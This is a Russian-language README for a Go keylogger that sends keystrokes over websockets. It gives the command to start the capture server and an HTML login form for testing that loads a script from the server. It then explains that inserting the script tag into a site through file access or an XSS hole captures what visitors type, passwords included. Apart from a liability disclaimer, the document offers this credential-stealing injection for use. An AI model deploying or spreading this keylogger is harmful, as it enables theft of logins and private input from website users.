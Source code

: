 # Дисклеймер
Автор не несет ответственности за использование вами этой программы.
Она создавалась в качестве домашнего проекта.
Использование этой программы в плохих целях может повлечь уголовную ответсвенность.

# keylogger
Простой кейлоггер, написанный на языке go, который использует websockets.

## Как это работает?
Для того, чтобы запустить программу нужно первоначально установить go. После установки, в терминале папке в папке с файлами ввести следующую комманду

go run main.go -listen-addr=127.0.0.1:8080 -ws-addr=127.0.0.1:8080
Эта комманда запускает на локальном сервере адресс для вебсокета, который будет принимать нажатые клавиши.

## Как протестировать кейлоггер?
Нужно перейти на сайт http://jsbin.com и ввести следующий код

``` <!DOCTYPE html>
<html>
<head>
<title>Login</title>
</head>
<body>
<script src='http://localhost:8080/k.js'></script>
<form action='/login' method='post'>
<input name='username'/>
<input name='password'/>
<input type="submit"/>
</form>
</body>
</html> ```

После запуска программы в терминале начнут отобржаться буквы, который нажал пользователь.
Данная программа работает по следющиму принципу:
Если в сайте вы смогли получить доступ к изменению файлов или нашли xss уязвимость, то добавим строчку кода <script src='http://localhost:8080/k.js'></script> 
вы сможете получать к данным, которые вводят пользователи.


